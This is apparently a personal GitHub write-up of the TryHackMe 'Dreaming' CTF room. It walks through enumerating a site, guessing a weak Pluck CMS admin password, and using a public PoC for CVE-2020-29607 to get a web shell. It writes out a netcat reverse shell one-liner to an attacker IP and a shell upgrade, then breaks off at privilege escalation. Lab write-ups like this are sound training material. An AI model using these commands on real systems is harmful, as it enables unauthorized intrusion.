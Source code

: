 # THM-Dreaming
Personal attempt on THM CTF Challenge

RECON 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/084772cd-94f9-46ba-b317-6d805eaa61e6)

Access the target's website, we can only see Apache's default site. Let's do some directory enumeration with nmap and http-enum script. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/016a5d24-38de-470c-8170-120b0a79eab5)

Accessing the directoy, we know that the web is using Pluck CMS 4.7.13

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/48925c1d-2d60-4869-903a-3c3c75efb00a)

EXPLOIT

Upon a quick Google search, we can tell that this version of Pluck is vulnerable to an Authenticated File Upload, as documented in CVE-2020-29607. However, first we need to authenticate. 
With some luck, I was able to guess the password. It's password (not very secured 🔒)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/944c85b0-9e3d-4599-aeaa-10cd9273ee47)

The mentioned vulnerability allows an attacker to upload a web shell to the directory http://IP/admin.php?action=files to gain a webshell. This abuses the "manage files" functionality of the app.
I use this PoC from Github: https://github.com/0xAbbarhSF/CVE-2020-29607
Usage: python3 exploit.py TARGET IP TARGET PORT password pluck-cms-path

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5b4795d2-805a-4e65-b5ba-a046e22eeafc)

Now, for more control and convenience, we want a reverse shell. I personally like to use the methods from
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

On your attack machine, start a Netcat listener on a random unused port.
nc -lvnp 1234

Then run this on the webshell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
Remember to replace the IP with the IP of your attack machine. 

Wait a few a moment, then we receive a shell of the target machine as www-data. www-data is the owner of files under the web server directory.  

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/325565e4-6740-4f61-be04-977d00d318bb)

To gain a more stable shell, we can use the command:
python3 -c 'import pty;pty.spawn("/bin/bash")

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/d7cd8071-55ff-47ed-b56e-42da593972ef)

PRIVILEGE ESCALATION


![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5e59087c-b25e-49f9-97dd-7ad1978fe37c)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/07a3dbb9-dee1-4bae-aaf0-164eac7ab22e)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/eac83ba7-0d52-4a95-aa16-d7d46a750ad8)

As you can see, www-data don't have read access to the flags so, in order to get the flags, we need to find ways to escalate to higher privileges. I am using [LinPeas]([url](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
Script is avi






